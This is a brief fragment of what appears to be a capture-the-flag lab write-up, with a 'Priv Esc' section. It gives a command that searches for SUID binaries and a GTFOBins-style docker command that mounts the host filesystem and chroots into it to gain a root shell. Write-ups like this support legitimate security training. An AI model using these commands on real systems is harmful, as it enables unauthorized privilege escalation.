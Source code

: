 ![image-20211230020908692](HOLO.assets/image-20211230020908692.png)



## Priv Esc



1. Search for SUID binary

```
find / -perm -u=s -type f 2>/dev/null
```

![image-20211230025442973](HOLO.assets/image-20211230025442973.png)



2. gtfobins to escalate to privileges

```bash
run -v /:/mnt --rm -it 56def654ec22 chroot /mnt sh
```
